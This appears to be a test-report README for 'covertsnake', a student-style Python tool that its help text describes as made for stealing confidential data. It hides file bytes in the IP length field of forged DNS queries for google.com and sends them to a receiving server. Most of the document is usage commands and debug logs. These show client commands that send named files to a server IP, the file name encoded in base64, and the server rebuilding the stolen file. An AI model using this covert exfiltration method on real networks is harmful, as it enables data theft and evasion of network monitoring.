


# covertsnake
## Gary. K and Amir. Z
### 3/27/2022


[Github Link](https://github.com/d0ntblink/covertsnake)

## Tests

| ***Function*** | ***Description*** | ***Status*** | ***Example*** |
|:-------------------|:--------------------------------:|:--------------:|----------:|
| --help function | Help funtion assists the user on how the program should be used | *Passed* | [Example](#--help)
| Argument Sanatizing | Wrong arguments are ignore and bad areguments are prompted | *Passed* | [Example](#argument-sanatizing)
| Error | An Error is diplayed for wrong inputs | *Passed* | [Example](#error-prompt)
| Local files as input | Local files are accepted and processed | *Passed* | [Example](#read-local-files)
| Run as root Prompt | Prompt that this program must be run as root | *Passed* | [Example](#root-prompt)
| Server mode | same script can be ran as a server or client | *Passed* | [Example](#server-mode)
| Progress bar | progress bar is shown for the client send file | *Passed* | [Example](#progress-bar)
| Bytes hidden in IP len | information bytes are hidden as a part of IP header | *Passed* | [Example](#hidden-bytes)
| Forged DNSQR packets | dns quarries are forged for google.com and google.ca | *Passed* | [Example](#forged-dnsqr)
| Library import | Libraries are imported properly | *Passed* |
| Client debug mode | debug mode is available for client | *Passed* | [Example](#client-debug)
| Server debug mode | debug mode is available for server | *Passed* | [Example](#server-debug)
| Server rebuilds the file from received bytes | Multiple graph options can be selected and processed | *Passed* | [Example](#server-builds-file)
| Name of the input file transfered encoded in base64 | first packets sent is the file name to server | *Passed* | [Example](#name-transfer)


## Examples

### --help
```
┌──(d0ntblink㉿H0rn3d0wl)-[~/Projects/covertsnake/Code]
└─$ sudo python covertsnake.py --help

covertsnake is a python program made for stealing confidential data or files in IP header of UDP DNS queries

THIS PROGRAM NEEDS TO BE RAN AS ROOT

Usage:
    sudo covertsnake.py --server
    sudo covertsnake.py --client --ip <server ip> --file <file name in the current directory>

Arguments:
    --help: displays this message
    --ip: server ip
    --file: the name of the file you want to transfer
    --server: runs the program in server mode
    --client: runs the program in client mode
    --debug: enables debug mode must be the first argument

Example:
    covertsnake.py --server
    sudo covertsnake.py --client --file example.pdf --ip 10.0.0.245
```
### Error Prompt
```
┌──(d0ntblink㉿H0rn3d0wl)-[~/Projects/covertsnake/Code]
└─$ sudo python covertsnake.py --lol --wrongargum
invalid arguments!!

covertsnake is a python program made for stealing confidential data or files in IP header of UDP DNS queries

THIS PROGRAM NEEDS TO BE RAN AS ROOT

Usage:
    sudo covertsnake.py --server
    sudo covertsnake.py --client --ip <server ip> --file <file name in the current directory>

Arguments:
    --help: displays this message
    --ip: server ip
    --file: the name of the file you want to transfer
    --server: runs the program in server mode
    --client: runs the program in client mode
    --debug: enables debug mode must be the first argument

Example:
    covertsnake.py --server
    sudo covertsnake.py --client --file example.pdf --ip 10.0.0.245
```
### Prompt Root

```
┌──(d0ntblink㉿H0rn3d0wl)-[~/Projects/covertsnake/Code]
└─$ python covertsnake.py

Only root can run this program

```

### Read Local Files
```
──(d0ntblink㉿H0rn3d0wl)-[~/Projects/covertsnake/Data]
└─$ sudo python3 ../Code/covertsnake.py --debug --client --ip 0.0.0.0 --file example.png

2022-03-28 15:39:59,545 : debug mode enabled


2022-03-28 15:39:59,545 : ../Code/covertsnake.py


2022-03-28 15:39:59,546 : --debug


2022-03-28 15:39:59,546 : --client


2022-03-28 15:39:59,546 : --ip


2022-03-28 15:39:59,546 : 0.0.0.0


2022-03-28 15:39:59,546 : --file


2022-03-28 15:39:59,546 : example.png
```
### Server Mode
```
┌──(d0ntblink㉿H0rn3d0wl)-[~/Projects/covertsnake/Code]
└─$ sudo python covertsnake.py --server

2022-03-28 15:39:40,521 : downloading a new file named b'example.png'

```
### Progress Bar
```
┌──(d0ntblink㉿H0rn3d0wl)-[~/Projects/covertsnake/Data]
└─$ sudo python3 ../Code/covertsnake.py --client --ip 0.0.0.0 --file example.txt
Sending Packets...:  21%|█████████████▋                                                  | 6/28 [00:00<00:01, 12.41 Bytes/s]
```
### Hidden Bytes

### Forged DNSQR

### Client Debug
```
┌──(d0ntblink㉿H0rn3d0wl)-[~/Projects/covertsnake/Data]
└─$ sudo python3 ../Code/covertsnake.py --debug --client --ip 0.0.0.0 --file example.png

2022-03-28 15:39:59,545 : debug mode enabled


2022-03-28 15:39:59,545 : ../Code/covertsnake.py


2022-03-28 15:39:59,546 : --debug


2022-03-28 15:39:59,546 : --client


2022-03-28 15:39:59,546 : --ip


2022-03-28 15:39:59,546 : 0.0.0.0


2022-03-28 15:39:59,546 : --file


2022-03-28 15:39:59,546 : example.png


2022-03-28 15:39:59,546 : in client mode


2022-03-28 15:39:59,546 : file name in base64 is b'ZXhhbXBsZS5wbmc='


2022-03-28 15:39:59,750 : sent file name


2022-03-28 15:39:59,764 : read the file to be yanked

Sending Packets...:   0%|                                                                    | 0/512596 [00:00<?, ? Bytes/s]
2022-03-28 15:39:59,860 : sent 392 hex byte
```
### Server Debug
```
┌──(d0ntblink㉿H0rn3d0wl)-[~/Projects/covertsnake/Code]
└─$ sudo python covertsnake.py --debug --server

2022-03-28 15:42:13,089 : debug mode enabled


2022-03-28 15:42:13,089 : covertsnake.py


2022-03-28 15:42:13,089 : --debug


2022-03-28 15:42:13,089 : --server


2022-03-28 15:42:13,089 : in server mode


2022-03-28 15:42:18,196 : got a new packet


2022-03-28 15:42:18,197 : Ether / IP / UDP / DNS Qry "b'ZXhhbXBsZS50eHQ=.'"


2022-03-28 15:42:18,198 : downloading a new file named b'ZXhhbXBsZS50eHQ=.' in 64bit


2022-03-28 15:42:18,202 : downloading a new file named b'example.txt'


2022-03-28 15:42:18,292 : got a new packet


2022-03-28 15:42:18,292 : Ether / IP / UDP / DNS Qry "b'google.com.'"
```
### Server Builds File
```
┌──(d0ntblink㉿H0rn3d0wl)-[~/Projects/covertsnake/Code]
└─$ sudo python covertsnake.py --server

2022-03-28 15:42:51,961 : downloading a new file named b'example.txt'


2022-03-28 15:42:54,330 : saved a new file
```
### Name Transfer
```
2022-03-28 15:42:18,197 : Ether / IP / UDP / DNS Qry "b'ZXhhbXBsZS50eHQ=.'"


2022-03-28 15:42:18,198 : downloading a new file named b'ZXhhbXBsZS50eHQ=.' in base64


2022-03-28 15:42:18,202 : downloading a new file named b'example.txt'
```